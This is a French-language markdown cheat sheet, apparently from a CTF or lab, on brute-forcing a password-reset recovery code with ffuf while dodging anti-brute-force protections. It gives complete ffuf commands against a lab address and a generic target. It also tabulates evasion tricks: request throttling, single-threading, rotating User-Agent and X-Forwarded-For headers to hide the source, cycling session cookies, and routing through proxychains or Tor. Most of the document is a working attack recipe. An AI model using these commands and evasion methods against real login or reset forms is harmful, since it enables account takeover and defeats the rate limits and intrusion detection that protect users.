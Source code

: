 #"🧠 Contournement de blocages lors de brute-force avec ffuf

Quand tu testes un champ sensible (ex: recovery_code) en POST via ffuf, il est fréquent que le serveur mette en place des protections anti-brute-force. Voici les techniques de contournement à connaître, illustrées avec deux approches :
💥 Mode rapide (agressif, + détectable)
```bash
ffuf -w code.txt \
  -u "http://10.10.182.202:1337/reset_password.php" \
  -X POST \
  -d "recovery_code=FUZZ&s=60" \
  -H "Cookie: PHPSESSID=77hof0vkqdqphapa434ddln1q6" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -t 5
```

##🔹 Avantages :

    Rapide

    Simple pour premiers tests

##🔹 Inconvénients :

    Peut être bloqué par WAF, rate limiter ou système de détection

#🐢 Mode furtif (lenteur contrôlée)
```bash
ffuf -w count-9999.txt \
  -u "http://10.10.182.202:1337/reset_password.php" \
  -X POST \
  -d "recovery_code=FUZZ&s=80" \
  -b "PHPSESSID=sg768n6m11nkob78lpkhlqo6h6" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -fr "Invalid" -fw 1 \
  -p 2 \
  -t 1 \
  --timeout 10 \
  -o slow_output.txt
```
##🔹 Avantages :

    Moins visible pour les IDS/WAF

    Permet d'éviter le blocage via ralentissement

##🔹 Inconvénients :

    Beaucoup plus lent

    Nécessite de filtrer correctement les réponses

#🧩 Techniques générales de contournement

| Technique                            | Explication                                  | Exemple                               |
|--------------------------------------|----------------------------------------------|---------------------------------------|
| `🐌 Ralenti`                         | `Pause entre requêtes pour éviter détection` | -p 2                                  |
| `🔁 Thread `                         | `unique	Réduit la charge visible`           | -t 1                                  |
| `🎭 Rotation UA/IP`                  | `Dissimule la source`                        | -H "User-Agent: ...", X-Forwarded-For |
| `🍪 Session dynamique`               | `Change la session utilisateur`              | -b "PHPSESSID=FUZZ" + wordlist        |
| `🔃 Paramètres dynamiques`           | `Change les valeurs annexes`                 | s=RANDOM, token=FUZZ                  |
| `🧼 Nettoyage de réponses`           | `Ignore les erreurs ou bruit`                | -fr, -fw, -fc                         |
| `🌐 Proxy`                           | `Utilise proxy ou Tor`                       | proxychains ffuf                      |

```bash
ffuf -w codes.txt \
  -u "http://target/reset_password.php" \
  -X POST \
  -d "recovery_code=FUZZ&ts=$(date +%s)" \
  -b "PHPSESSID=FUZZ" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -H "User-Agent: $(shuf -n1 useragents.txt)" \
  -H "X-Forwarded-For: $(shuf -n1 ips.txt)" \
  -fr "Invalid" -t 1 -p 1 \
  --timeout 10
```